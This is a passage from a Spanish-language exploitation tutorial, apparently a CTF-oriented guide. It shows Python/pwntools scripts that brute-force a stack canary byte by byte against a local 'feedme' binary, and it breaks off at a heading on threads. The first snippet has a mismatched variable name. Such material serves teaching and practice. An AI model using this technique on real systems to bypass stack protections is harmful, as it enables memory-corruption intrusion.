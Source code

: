 ```python
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
### Ejemplo 2

Esto está implementado para 32 bits, pero esto podría cambiarse fácilmente a 64 bits.\
También tenga en cuenta que para este ejemplo el **programa esperaba primero un byte para indicar el tamaño de la entrada** y la carga útil.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
## Hilos
